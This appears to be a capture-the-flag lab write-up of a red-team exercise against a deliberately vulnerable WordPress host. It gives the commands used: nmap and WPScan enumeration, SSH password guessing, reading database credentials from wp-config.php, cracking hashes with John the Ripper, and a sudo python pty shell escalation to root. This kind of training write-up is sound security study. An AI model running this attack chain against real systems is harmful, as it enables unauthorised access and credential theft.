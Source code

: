 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#Exposed-Services)
- [Critical Vulnerabilities](#Critical-Vulnerabilities)
- [Exploitation](#Exploitation)

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
###- Target 1
  1. <ins>**PORT ENUMERATION**</ins> (Severity: **MEDIUM**)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. <ins>**WEAK PASSWORD POLICY**</ins> (Severity: **HIGH**)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. <ins>**MISCONFIGURED WEBSITE**</ins> (Severity: **HIGH**)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. <ins>**PYTHON ESCALATION**</ins> (Severity: **MEDIUM-HIGH**)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

### 1. <ins>**flag1.txt**:</ins> `b9bbcb33ellb80be759c4e844862482d`
- **Exploit Used**
        - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`


        <img src="/Images/wpscan-users.png">
                <img src="/Images/Flag1.png">

- Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    - Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
            - Password: *michael*
- SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html
        - Commands:
            - `ssh michael@192.168.1.110`
            - `pw: michael`
            - `cd /var/www/html`
            - `ls -l`
            - `nano service.html`

### 2. <ins>**flag2.txt:**</ins> `fc3fd58dcdad9ab23faca6e9a3e581c`
- **Exploit Used**
    - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
        - Simple directory exploration found the **'flag2.txt'** file plainly visible in the /var/www/ directory.
            - `cd /var/www/`
            - `ls -l`
            - `cat flag2.txt`
                <img src="/Images/flag2.png">

### 3. <ins>**Flag3:**</ins> `afc01ab56b50591e7dccf93122770cd2`
- Exploit Used:
    - Viewing the wp-config.php file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


### 4. <ins>**Flag4:**</ins> `715dea6c055b9fe3337544932f2941ce`
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

            - Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
                - Commands: 
                    - `ssh steven@192.168.1.110`
                    - `pw:pink84`
                    - `sudo -l`
                    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                    - `cd /root`
                    - `ls`
                    - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

<img src="/Images/flag4.png">